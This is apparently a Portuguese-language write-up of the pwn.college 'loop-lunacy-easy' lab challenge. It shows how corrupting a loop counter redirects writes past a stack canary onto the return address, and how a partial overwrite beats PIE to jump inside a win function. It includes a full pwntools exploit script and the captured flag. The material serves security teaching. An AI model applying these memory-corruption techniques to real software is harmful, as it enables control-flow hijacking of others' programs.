








# pwn.college — Loop Lunacy Easy (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** Stack canary bypass · Local variable corruption · Partial overwrite · PIE bypass · Return address overwrite · Salto para dentro de função · Análise de disassembly com objdump

---

## Descrição do Desafio

O desafio `loop-lunacy-easy` apresenta uma forma incomum de corrupção de memória. Diferente de um buffer overflow clássico — onde escrevemos bytes além do fim do buffer e atravessamos o canário — a vulnerabilidade está em uma **variável local `n`** que controla onde o próximo byte será escrito. Ao corromper `n`, conseguimos reposicionar a escrita diretamente sobre o return address, **pulando completamente o canário**.

O binário, por ser a versão easy, imprime o layout completo da stack com todos os offsets relevantes:



```
- the input buffer starts at 0x7fffb47fddb0
- the saved return address is now pointing to 0x56d39f80c788
- the canary is stored at 0x7fffb47fde08
- the canary value is now 0x5372d0ef2c06a000
- the address of the number of bytes read counter and read offset is 0x7fffb47fddfc
- the address of win_authed() is 0x56d39f80bc41
```

O layout relevante da stack é:

```
offset   0  →  75  : input buffer (76 bytes)
offset  76         : variável n
offset  77  → 103  : canário + saved RBP (região protegida)
offset 104         : saved return address
```

O objetivo é sobrescrever o return address para redirecionar a execução para `win_authed()` — sem tocar no canário.

---

## Entendendo o Loop Vulnerável

O binário informa explicitamente o mecanismo de leitura:



```c
while (n < size) {
    n += read(0, input + n, 1);
}
```

Cada `read` lê **1 byte** e o escreve em `input + n`. Como `read` retorna 1, `n` é incrementado em 1 a cada iteração. Portanto:

- `n` define onde o **próximo byte** será escrito
- `n` está armazenada **imediatamente após** o buffer, no offset 76
- Ao escrever 76 bytes de padding, o 77º byte sobrescreve a própria variável `n`

Isso significa que ao controlar o valor escrito em `n`, controlamos o destino de todas as escritas seguintes.

---

## Confirmando o Comportamento — Testes no Terminal

O binário imprime, a cada `read`, em qual offset o byte será escrito. Isso permite observar o efeito da corrupção de `n` diretamente.

**Comportamento normal — escrita byte a byte:**



Os bytes são escritos sequencialmente nos offsets 0, 1, 2... enquanto `n < size`.

**Sobrescrevendo `n` com `A` no byte 76:**



`A` = `0x41` = 65 em decimal. Após a sobrescrita, `n` vale 65. O `read` retorna 1, então `n` vira 66. O próximo byte é escrito no offset 66 — aquém do return address em 104. Isso confirma que qualquer byte escrito no offset 76 reposiciona a escrita para `valor_ascii + 1`.

---

## A Lógica do Bypass — Escolhendo o Byte Certo

Para chegar ao return address no offset 104, precisamos que, após a sobrescrita de `n` e o incremento do `read`, `n` valha exatamente 104:

```
n = valor_byte_escrito
n += 1  (read retorna 1)
n = 104

→ valor_byte_escrito = 103 = 0x67 = 'g'
```

O caractere `g` (ASCII 103) sobrescreve `n` com 103. Após o `read`, `n` vira 104 — exatamente o offset do return address. O próximo byte é escrito direto sobre ele, **pulando completamente o canário**.

---

## Por que o Tamanho do Payload é 106?

O programa pede o tamanho do payload antes de iniciar o loop. Dois pontos são importantes aqui:

**Ponto 1 — tamanho mínimo:** se enviássemos 76 como tamanho, o loop encerraria em `n < 76`, ou seja, escrevendo até o offset 75. O byte 76 (onde está `n`) nunca seria atingido. O tamanho precisa ser maior que 76.

**Ponto 2 — por que 106:** após sobrescrever `n` com `g` (103), o programa passa a acreditar que já leu 104 bytes. O loop continua enquanto `n < size`. Para escrever nos offsets 104 e 105 (2 bytes de partial overwrite do return address), `size` precisa ser 106:

```
offset 104 → primeiro byte do return address
offset 105 → segundo byte do return address
size = 106
```

Mesmo que o número total de bytes fisicamente enviados seja menor que 106, o que importa é o valor de `size` que o programa usa na condição do loop — e esse valor já foi declarado como 106 no início.

---

## A Verificação em `win_authed` — Por que Pular para Dentro da Função

O código-fonte de `win_authed` revela uma verificação no início:



```c
void win_authed(int token) {
    if (token != 0x1337) return;
    puts("You win! Here is your flag: ");
    sendfile(1, open("/flag", 0), 0, 256);
    puts("");
}
```

A função recebe um argumento `token` e o compara com `0x1337`. Como controlamos o return address mas não os argumentos, entrar em `win_authed+0` faria a verificação falhar e a função retornaria sem imprimir a flag.

Inspecionando o disassembly com `objdump -M intel -d /challenge/loop-lunacy-easy`:



```asm
1c41:  endbr64
1c45:  push   rbp
1c46:  mov    rbp, rsp
1c49:  sub    rsp, 0x10
1c4d:  mov    DWORD PTR [rbp-0x4], edi
1c50:  cmp    DWORD PTR [rbp-0x4], 0x1337   ← verificação
1c57:  jne    1d5b <win_authed+0x11a>        ← pula para fora se falhar
1c5d:  lea    rdi, [rip+0x148c]              ← início do trecho que imprime a flag
```

O alvo correto é o offset `0x1c5d` — imediatamente após o `jne` — onde a função já pressupõe autenticação válida e prossegue para abrir e imprimir a flag.

---

## Partial Overwrite — Contornando o PIE

Como o binário possui PIE, os endereços absolutos mudam a cada execução. No entanto, o partial overwrite funciona porque o return address original e o endereço alvo estão no **mesmo mapeamento do binário**. Os bytes superiores já são os corretos — só precisamos alterar os 2 bytes inferiores com `p16(0x1c5d)`.

Como o nibble mais alto do offset que não sobrescrevemos é aleatório (ASLR), o exploit tem probabilidade de **1/16** de acertar por tentativa — por isso usamos um loop.

---

## Exploit Final



```python
from pwn import *

PATH = '/challenge/loop-lunacy-easy'

context.log_level = "error"

j = 1
while True:
    print(f"Tentativa: {j}")
    p = process(PATH)

    p.sendline(b"106")       # tamanho do payload — permite escrita até offset 105

    i = 0
    while i < 76:            # 76 bytes de padding — chega até n sem sobrescrevê-la ainda
        p.sendline()         # envia \n (qualquer byte serve para o padding)
        i += 1

    p.send(b"g")             # sobrescreve n com 103 → após read: n = 104

    win_authed_addr = p16(0x1c5d)   # 2 bytes do alvo dentro de win_authed (após o jne)
    p.send(win_authed_addr)

    out = p.recvall()

    if b"pwn.college" in out:
        inicio_flag = out.find(b"pwn.college")
        flag_em_diante = out[inicio_flag:]
        flag = flag_em_diante.split(b"\n")[0]
        print(f"A flag eh: {flag}")
        break

    j += 1
```

**Por que `p.sendline()` para o padding?** O loop envia 76 bytes de padding usando `sendline()` (que manda `\n`). O binário aceita qualquer byte para o padding — o que importa é apenas o byte no offset 76.

**Por que `p.send()` para `g` e o endereço?** O `sendline()` adicionaria um `\n` extra que cairia sobre o return address após o partial overwrite, corrompendo-o. O `send()` envia exatamente os bytes desejados, sem nenhum byte adicional.

---

## Resultado Final



```
A flag eh: b'pwn.college{YS6pxAW858NyHim_lqBCW3FFP2v.dVDMzwCOzYTNxEzW}'
```

---

## Resumo do Fluxo de Exploração

```
1. Binário imprime layout → buffer em +0, n em +76, canário em +103, return address em +104
2. Loop: n += read(0, input+n, 1) → n controla o destino da escrita
3. Tamanho mínimo > 76 para atingir o offset de n; usamos 106 para cobrir 2 bytes do RA
4. 76 bytes de padding → chegamos ao offset 76 sem sobrescrever n ainda
5. 'g' = 103 → sobrescreve n; após read: n = 104 → próxima escrita vai ao return address
6. p.send() (sem \n) evita byte extra sobre o return address
7. objdump → win_authed+0 tem cmp 0x1337 + jne → verificação falha sem argumento correto
8. Alvo: offset 0x1c5d (logo após o jne) → entra direto no trecho que imprime a flag
9. Partial overwrite: p16(0x1c5d) sobre os 2 bytes inferiores do return address
10. Loop de brute-force (1/16 por tentativa) → flag obtida na tentativa 22
```

---

## Conceitos Importantes

**Stack canary:** valor colocado entre variáveis locais e o return address. Se um overflow atravessar essa região, o programa detecta e aborta. Neste desafio, o canário **não é sobrescrito** — a corrupção de `n` reposiciona a escrita diretamente para o return address, pulando a região protegida.

**Corrupção de variável local:** a vulnerabilidade central não é escrever muitos bytes, mas corromper `n` — a variável que define onde o próximo byte será escrito. Ao alterá-la, controlamos o destino do próximo `read`.

**Partial overwrite:** com PIE, endereços absolutos mudam, mas os bytes superiores do return address e do alvo estão no mesmo mapeamento. Sobrescrevemos apenas os 2 bytes inferiores, com probabilidade de 1/16 de acertar o nibble aleatorizado pelo ASLR.

**Salto para dentro da função:** `win_authed+0` possui uma verificação (`cmp 0x1337`) que falha sem o argumento correto. O alvo é `0x1c5d` — após o `jne` — onde a função já pressupõe autenticação válida e imprime a flag.
